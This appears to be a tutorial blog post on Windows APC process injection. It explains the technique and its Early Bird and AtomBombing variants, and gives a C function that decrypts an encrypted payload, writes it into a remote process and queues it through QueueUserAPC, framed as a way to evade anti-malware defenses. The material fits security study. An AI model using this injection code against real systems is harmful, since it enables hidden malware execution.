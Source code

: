 # Asynchronous Code Injection

## Introduction

Welcome to my new article! Today, I’ll walk you through how you can inject code using an asynchronous technique.

### Process Injection: Asynchronous Procedure Call

**Reference:** [MITRE ATT&CK - Asynchronous Procedure Call](https://attack.mitre.org)

Adversaries may inject malicious code into processes via the Asynchronous Procedure Call (APC) queue. This technique helps evade process-based defenses and can even be used to escalate privileges.

APC injection typically involves adding malicious code to the APC queue of a thread within a target process. These queued APC functions are executed when the thread enters an alertable state.

To perform this, a handle to the target process or thread is obtained using native Windows API calls like `OpenThread`. The `QueueUserAPC` function is then used to schedule the execution of the malicious function.

#### Variants

- **Early Bird Injection**: A suspended process is created, and the shellcode is injected before the process's entry point is reached—bypassing potential anti-malware hooks.
- **AtomBombing**: Utilizes APCs to execute malicious code previously written to the global atom table.

## Injection Steps

1. Identify a suitable thread within the target process.
2. Copy or deliver the shellcode to the remote process.
3. Use `QueueUserAPC` to queue an APC object pointing to the shellcode.
4. Set the target thread to an alertable state.
5. The APC is executed when the thread becomes alertable.

![image](https://github.com/user-attachments/assets/2ffe589b-3284-4c40-a159-3c0365709ac1)

## Code Example

```c
int InjectAPC(int pid, HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
    HANDLE hThread = NULL;
    LPVOID pRemoteCode = NULL;
    CONTEXT ctx;

    // Locate a thread in the target process
    hThread = FindThread(pid);
    if (hThread == NULL) {
        printf("Error: Thread hijacking unsuccessful.\n");
        return -1;
    }

    // Decrypt and prepare payload
    AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key)); 

    // Allocate memory in the target process and write the payload
    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);

    // Queue the shellcode for execution via APC
    QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
    
    return 0;
}
```

### Explanation

- The first step is to find a suitable thread in the target process.
- The payload is decrypted using AES.
- Memory is allocated in the target process using `VirtualAllocEx`.
- The decrypted shellcode is written to the allocated memory with `WriteProcessMemory`.
- Finally, `QueueUserAPC` schedules the shellcode for execution when the thread enters an alertable state.

## Proof of Concept

Executing this method successfully runs the shellcode (e.g., a MessageBox) in the remote process.

![image](https://github.com/user-attachments/assets/00095590-5232-4c3c-bb64-5004f3467599)

## Conclusion

This guide demonstrates how to use asynchronous techniques for injecting code into a remote process using APCs. I hope you found this informative.

Thanks for reading!

**— Malforge Group**
